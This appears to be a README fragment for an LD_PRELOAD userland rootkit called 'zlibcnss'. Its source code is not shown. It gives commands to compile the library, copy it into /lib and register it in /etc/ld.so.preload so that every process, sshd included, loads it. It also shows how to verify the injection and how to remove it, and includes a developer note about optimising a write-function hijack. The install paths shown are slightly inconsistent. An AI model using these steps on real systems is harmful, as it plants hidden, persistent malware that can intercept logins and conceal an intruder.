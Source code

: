 


Compile and install:
```bash
 gcc zlibcnss.c -o zlibcnss.so -fPIC -shared -ldl -D_GNU_SOURCE -pthread
 cp zlibcnss.so /lib/
 echo "/lib/zlibcnss.so" > /etc/ld.so.preload
```


## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
rm /etc/ld.so.preload
rm /lib/zlibcnss.so
rm /lib/x86_64-linux-gnu/zlibcnss.so
```

write function hijack 需要优化

### Verify installation
```bash
ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcnss.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcnss.so
```

